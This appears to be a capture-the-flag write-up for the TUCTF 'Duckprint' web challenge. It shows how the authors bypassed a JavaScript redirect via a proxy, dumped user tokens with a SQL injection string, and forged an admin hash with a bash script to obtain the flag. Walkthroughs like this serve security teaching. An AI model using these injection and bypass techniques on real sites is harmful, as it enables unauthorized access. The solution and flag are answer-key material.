 ### Solved by rasta_mouse & historypeats

Duckprint was a 100 point Web Challenge

After navigating to the challenge [URL](http://130.211.242.26:31337), we see there are 3 main pages:

* Register
* Generate
* Validate

#### Register

This is a simple page where we can register a new account.  When you do this, a cookie is assigned:
`duck_cookie=%7B%22username%22%3A%22rastamouse%22%2C%22admin%22%3A0%7D` --> `duck_cookie={"username":"rastamouse","admin":0}`

#### Generate

This page allows us to generate a 'duck print' string for any user by entering a username.  The page is nice enough to reveal how this string is generated:
`Duck Print format: sha256(b64(username) + "." + b64(cookie) + "." + b64(token))`

By putting `rastamouse` into the box, I get the following result:

```
Username:Admin:Token

rastamouse:0:Urczv4Mb
Generated Duck Print for rastamouse: e003648729932cf96d2bb0987f9b81872eaed0290873a35c17ee8fddded8381e
```

#### Validate

This page requires an admin cookie to access, however we can bypass using Burp (other interception proxies are available :)).  The server provides the following response:

```
<form id='validate' action='validate.php' method='post'
    accept-charset='UTF-8'>
<fieldset >
<legend>Validate Admin Duck Print</legend>

<input type='hidden' name='submitted' id='submitted' value='1'/>

<label for='duckprint'>Duck Print:</label>
<input type='text' name='duckprint' id='duckprint' maxlength="100" />
<input type='submit' name='submit' value='Submit' />

</fieldset>
</form>
<script language="javascript">alert("Only the admin can access this page!");location.href = "http://130.211.242.26:31337/generate.php";</script>
</body>
</html>
```

By removing the javascript in the proxy, a browser will render the page.  By putting some junk in the duckprint search box, we get the error `'That is not DuckDuckGoose's Duck Print!'`

Based on that information disclosure, we can assume that `DuckDuckGoose` is the admin and that his cookie will likely be `{"username":"DuckDuckGoose","admin":1}`.  However, we can't use the `Generate` page to get his token:  `Cannot generate admin's duck print!`

historypeats found that there was some SQLi in the generate field - there is an HTML comment containing the query being used which kinda hinted to this:  `<!-- $query = "SELECT * FROM users WHERE username ='" . $username . "'"; -->`

You can use this to force the application to display the tokens of all users with the following input:

`duckduckgoose ' or 1=1;-- -`

Which gives you:

`DuckDuckGoose:1:d4rkw1ng`

Now we have everything required to create his duck print.  I used some pretty lame bash for this.

```
#!/bin/bash

u='DuckDuckGoose'
c='{"username":"DuckDuckGoose","admin":1}'
t='d4rkw1ng'

b64_u=`echo -en $u | base64`
b64_c=`echo -en $c | base64`
b64_t=`echo -en $t | base64`

s=`echo -en $b64_u.$b64_c.$b64_t`

duck=`echo -en $s | sha256sum`

echo $duck
```

Which produces:  `d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d`

Feed this value into the `Validate` page, and we get our flag:

```
TUCTF{Quacky_McQuackerface}
```